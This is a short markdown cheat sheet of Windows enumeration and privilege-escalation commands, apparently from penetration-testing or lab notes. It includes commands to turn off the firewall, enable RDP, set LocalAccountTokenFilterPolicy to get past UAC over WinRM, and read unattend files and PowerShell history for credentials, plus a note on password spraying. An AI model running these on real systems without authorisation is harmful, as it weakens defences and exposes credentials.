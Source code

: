 # Windows Enumeration Tips
 
 ## Searching files with dir
 ```
 [@swisskyrepo] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
 
 dir /S /B filename*.txt
 ```

## Get Passrod Policy for Spraying
```
net accounts
```


 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

 ## Copy File to Mapped Drive
 ```
 cp <filename> f:\ 
 (or location)
 ```

 ## Enable/Disable Windows Firewall CLI
 ```
 NetSh Advfirewall set allprofiles state on
 NetSh advfirewall set allprofiles state off
 ```

 ## Enable RDP (Terminal Services)
 ```
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
 ```

 ## Mount a VHD Drive
 - ```--add`` is the name of the file
 ```
 mkdir /mnt/vhd
 sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
 ```

 ## Extend Trial License
 ```
 slmgr.vbs -rearm
 ```

 ## Unattended Windows Installations
 ```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
 ```

## Checking PowerShell History
Powershell.exe does not recognize or use the %% reference, so need to use env variables

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (cmd.exe)
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (powershell.exe)
```

## Disable LocalAccountTokenFilterPolicy 
If you are in the Backup Operators group, if/when you login via WinRM you wont have any administrative privilges.  To fix this
We need to elevate privileges via UAC, which is not possible through CLI, so we need to disable the registry setting

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```